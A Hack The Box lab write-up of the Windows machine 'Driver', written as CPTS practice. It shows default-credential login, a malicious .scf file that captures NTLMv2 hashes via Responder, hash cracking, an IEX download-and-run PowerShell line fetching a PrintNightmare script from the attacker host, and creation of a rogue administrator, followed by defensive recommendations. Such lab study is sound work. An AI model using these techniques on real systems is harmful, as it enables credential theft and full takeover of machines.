# Driver — Hack The Box (CPTS practice)

**Platform:** Hack The Box
**Difficulty:** 🟢 Easy
**OS:** Windows
**Certification:** Extra practice for the CPTS (Certified Penetration Testing Specialist)
**Date completed:** 2026
**Techniques:** Nmap · HTTP Basic Auth (default credentials) · Malicious `.scf` file → NTLMv2 hash capture with Responder · John the Ripper · Evil-WinRM · WinPEAS · **CVE-2021-1675 (PrintNightmare)** → Administrator
**Language:** English — [🇪🇸 Versión en español](./Driver_Writeup_ES.md)

---

## Table of contents
1. [Reconnaissance](#1-reconnaissance)
2. [Web enumeration — a firmware panel with default credentials](#2-web-enumeration--a-firmware-panel-with-default-credentials)
3. [Initial access — capturing an NTLM hash with a `.scf` file](#3-initial-access--capturing-an-ntlm-hash-with-a-scf-file)
4. [Getting a shell and escalating — PrintNightmare (CVE-2021-1675)](#4-getting-a-shell-and-escalating--printnightmare-cve-2021-1675)
5. [Post-exploitation and flags](#5-post-exploitation-and-flags)
6. [Lessons learned](#6-lessons-learned)
7. [Tool & command glossary](#7-tool--command-glossary)

---

## 1. Reconnaissance

```bash
ping -c 1 10.129.69.136
```

> 🛠️ **`ping`** — a TTL of **127** (starting from 128) points to **Windows**.



```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.69.136 -oN AllPorts
```




Four open ports: **80** (http), **135** (msrpc), **445** (smb), and **5985** (winrm). Version scan:

```bash
nmap -sS -Pn -sCV -T5 -n -p80,135,445,5985 -oN Ports 10.129.69.136
```



| Port | Service | Detail |
|------|---------|--------|
| 80 | Microsoft IIS 10.0 | **Basic** auth, realm `MFP Firmware Update Center` |
| 135 | Microsoft Windows RPC | — |
| 445 | microsoft-ds | SMB signing **enabled but not required** |
| 5985 | WinRM | Microsoft HTTPAPI |

> 💡 The hostname **`DRIVER`**, confirmed by the scan itself, is a fairly direct hint toward the final escalation (printer drivers).

## 2. Web enumeration — a firmware panel with default credentials

Port 80 requests HTTP Basic authentication:



We try **`admin:admin`** and it works. We land on the **"MFP Firmware Update Center"**:


The **"Firmware Updates"** section lets us upload a file, noting that **"our testing team will review the uploads manually"**:


> 💡 That notice is the key hint: a human is going to **open/inspect** the uploaded file from their own Windows machine — exactly what we need for the next step.

## 3. Initial access — capturing an NTLM hash with a `.scf` file

### What is a `.scf` file, and why does this attack work?

An **`.scf`** (**Shell Command File**) is an old Windows Explorer format that supports a very limited set of actions (showing the desktop, opening Explorer). The field that matters to us is `IconFile`, which tells Windows **where to fetch the icon** to display for that file in folder view — and it accepts a **UNC** (network) path: `\\IP\share\icon.ico`.

When someone opens, with Windows Explorer, the folder containing that `.scf` — **you don't even need to double-click the file itself: Explorer merely listing it is enough to try rendering its icon** — Windows automatically tries to connect over **SMB** to that network path.

Here's the key part: **every SMB connection in Windows authenticates automatically** using the active session's credentials, via **NTLM**. If there's no real share on the other end of that path — just something **pretending to be a legitimate SMB server** — that "something" can capture the entire authentication exchange: username, domain, and an **NTLMv2 hash** (not the plaintext password, but a value that can be attacked offline).

In short: **an `.scf` whose icon points at our IP forces whoever browses that folder in Explorer to unknowingly "authenticate" against us — no execution, no clicking anything beyond just opening the folder.**

```ini
[Shell]
Command=2
IconFile=\\10.10.15.31\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

> 🛠️ **`Command=2`** and **`IconFile=`** are the two relevant keys: the first sets the action (open Explorer), the second is what triggers the network request when resolving the icon. Everything else is leftover template noise, irrelevant to the attack.



### What does Responder do here?

**Responder** listens on the network pretending to be various services (SMB, LLMNR, NBT-NS, and more), and whenever another machine tries to authenticate against one of those fake services, it **captures the full NTLM authentication exchange**, including the NTLMv2 hash, with no prior credentials needed. It's exactly the "fake SMB server" our `.scf` needs waiting on the other end.

```bash
sudo responder -w -I tun0
```

> 🛠️ **`-w`** starts the WPAD server (part of Responder's standard startup, not critical here). **`-I tun0`** sets the network interface to listen on — HTB's VPN interface.


We upload the `.scf` through the "Firmware Updates" form. As soon as the file gets reviewed in Explorer, Windows tries to resolve the icon against our IP, and Responder captures the authentication:


```
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:d0cd35208944a333:...
```



### Cracking the hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

> 🛠️ **`john --wordlist=<file> <hash>`** — a dictionary attack with John the Ripper; it auto-detects the hash format (`netntlmv2` here).


```
tony:liltony
```

```bash
evil-winrm -i 10.129.69.136 -u 'tony' -p 'liltony'
```

> 🛠️ **`evil-winrm`** — a client for connecting to Windows Remote Management sessions (**WinRM**, port 5985/5986), roughly SSH's equivalent for remote PowerShell.



## 4. Getting a shell and escalating — PrintNightmare (CVE-2021-1675)

We upload **WinPEAS**, an automated Windows privilege-escalation enumeration script:


```
upload "/local/path/winPEASx64.exe"
```

> 🛠️ **`upload`** — an Evil-WinRM built-in command that transfers a file to the victim through the already-authenticated WinRM session, no extra server needed.


```
.\winPEASx64.exe
```



Among the findings, **`spoolsv`** (the Print Spooler service) shows up in the listening ports/processes list:



> 💡 The machine's own name, **"Driver"**, combined with an active Print Spooler, points straight at **PrintNightmare (CVE-2021-1675 / CVE-2021-34527)** — a critical 2021 vulnerability that allows loading a malicious printer driver without proper signature checks, achieving code execution as SYSTEM.

```bash
git clone https://github.com/calebstewart/CVE-2021-1675.git
```



We serve the exploit:

```bash
python3 -m uploadserver 8080
```

> 🛠️ **`uploadserver`** — a Python module extending `http.server`: it serves files and additionally exposes an `/upload` endpoint to receive them.


### Downloading and running the exploit in memory

From Evil-WinRM (as `tony`):

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.15.31:8080/CVE-2021-1675.ps1')
```

> 🛠️ **Breaking down this one-liner, a very common Windows post-exploitation pattern:**
> - **`New-Object Net.WebClient`** — creates a .NET object capable of making HTTP requests (PowerShell's equivalent of `curl`/`wget`).
> - **`.DownloadString('URL')`** — downloads that URL's content as **text**, not as a file on disk.
> - **`IEX`** (*Invoke-Expression*) — executes that text as PowerShell commands in the current session.
>
> Put together: "fetch this script over HTTP and run it right now, with no `.ps1` ever written to the victim's disk." It's a classic technique for minimizing forensic footprint and avoiding the hassle of uploading the whole file. After this line runs, the `Invoke-Nightmare` function is loaded and ready to use.

```powershell
Invoke-Nightmare -DriverName "Xerox" -NewUser "arabot" -NewPassword "Arabot123"
```



```
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\...\ntprint.inf_amd64_...\Amd64\mxdwdrv.dll"
[+] added user arabot as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

> 💡 `Invoke-Nightmare` automates the entire exploit: it generates a malicious DLL, abuses the Print Spooler API (`RpcAddPrinterDriverEx`) to load it as **SYSTEM** without the proper signature checks, uses that access to create a new user and add it to the local Administrators group, and deletes the DLL it used.

```powershell
net user
```



## 5. Post-exploitation and flags

```bash
evil-winrm -i 10.129.69.136 -u 'arabot' -p 'Arabot123'
```


```powershell
whoami /groups
```



`BUILTIN\Administrators` is confirmed with `Group owner`.

```powershell
cd C:\Users\Administrator
pwd
```


> 🔒 The exact contents of `user.txt` and `root.txt` aren't published in this writeup on purpose, so anyone practicing this same box still has to complete that last step themselves — the full path to each one is documented in §3 and §5.

## 6. Lessons learned

| Vulnerability | Where | Impact |
|----------------|-------|---------|
| Default credentials (`admin:admin`) on an exposed admin panel | "MFP Firmware Update Center" portal | Trivial entry point |
| No file-type restriction on uploads, manually reviewed in a Windows environment | Upload form | NTLM hash capture via `.scf` as soon as the file is browsed in Explorer |
| SMB signing not enforced | Port 445 | Facilitates NTLM capture/relay attacks |
| Print Spooler running and unpatched against PrintNightmare | `spoolsv.exe` | Code execution as SYSTEM and creation of local administrators |

## Defensive recommendations

- Immediately change any default credentials on admin panels.
- Restrict allowed file types on upload forms; never open third-party files with a full desktop client.
- Enforce SMB signing.
- Block outbound SMB to untrusted IPs from workstations that process external content.
- Apply the PrintNightmare patches, or disable the Print Spooler service where it isn't needed.
- Periodically audit membership in the local Administrators group.

## 7. Tool & command glossary

| Tool / command | What it's for |
|------------------|-----------------|
| `ping` / `nmap` | Host discovery and port/service enumeration |
| **`.scf` file** | A Windows Explorer format whose `IconFile` field accepts UNC paths, forcing an automatic SMB authentication attempt when the folder is browsed |
| **Responder** | Impersonates network services (SMB, LLMNR, NBT-NS) to capture NTLM authentication exchanges, including the NTLMv2 hash |
| `john --wordlist=<file> <hash>` | Dictionary attack against a hash with John the Ripper |
| `evil-winrm` | Client for Windows Remote Management (WinRM) sessions |
| `upload` (Evil-WinRM) | Transfer a file to the victim over the WinRM session |
| **WinPEAS** | Automated enumeration of Windows privilege-escalation vectors |
| `python3 -m uploadserver` | An HTTP server that also accepts file uploads (`/upload`) |
| `IEX(New-Object Net.WebClient).DownloadString('URL')` | Download and run PowerShell code directly in memory, without writing it to disk |
| **PrintNightmare (CVE-2021-1675)** | A Windows Print Spooler vulnerability allowing malicious driver loading and code execution as SYSTEM |
| `Invoke-Nightmare` | A PowerShell function automating PrintNightmare exploitation, including creating a local administrator |

---

*Written by [Arabot](https://github.com/Caan31) · Hack The Box · CPTS practice · 2026*
